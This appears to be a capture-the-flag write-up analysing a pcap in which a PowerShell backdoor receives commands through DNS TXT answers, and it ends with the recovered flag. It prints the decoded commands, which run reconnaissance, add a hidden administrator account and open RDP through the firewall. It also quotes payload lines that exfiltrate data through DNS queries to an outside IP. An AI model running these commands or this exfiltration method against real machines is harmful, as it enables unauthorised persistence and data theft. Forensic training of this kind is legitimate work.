

# Automation


We are given a pcap file that looks like a bunch of windows update traffic. Poking around we see a bunch of weird DNS traffic with a few TXT answers.


as well as a url to `http://windowsliveupdater.com/desktop.png`. Checking the image, it looks to be a base64 encoded [payload](payload.ps1). On the DNS request side, each of the answers looks to be base64 encoded strings:


Running the strings through the Decrypt-String function we found in the payload we get:

```powershell
hostname
whoami
ipconfig
wmic /namespace:\\root\SecurityCenter PATH AntiVirusProduct GET /value
net user DefaultUsr "JHBhcnQxPSdIVEJ7eTB1X2M0bl8n" /add /Y; net localgroup Administrators /add DefaultUsr; net localgroup "Remote Desktop Users" /add DefaultUsr
netsh advfirewall firewall add rule name="Terminal Server" dir=in action=allow protocol=TCP localport=3389
net start TermService 
```

Pushing `JHBhcnQxPSdIVEJ7eTB1X2M0bl8n` through the Decrypt function we get part of the flag! `$ part1='HTB{y0u_c4n_'`

The second part of the flag can be found in the payload layout: 
- First it gets a bunch of strings from the DNS server
- Decrypts them
- Splits them into chunks of 32 

```powershell
$pr = Encrypt-String $key $output|parts 32
```

- Finally, it then pushes out a DNS request starting with `start.windowsliveupdater.com` and ending with `end.windowsliveupdater.com`. In between, it takes each chunk of 32 and prepends it to `.windowsliveupdater.com` using the following:

```powershell
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
```

So, to recover the info we just need to grab all the strings between `start` and `end`, convert them back into base64 strings, and push them through the decrypt function to get the second half of the flag:



`Flag: HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}`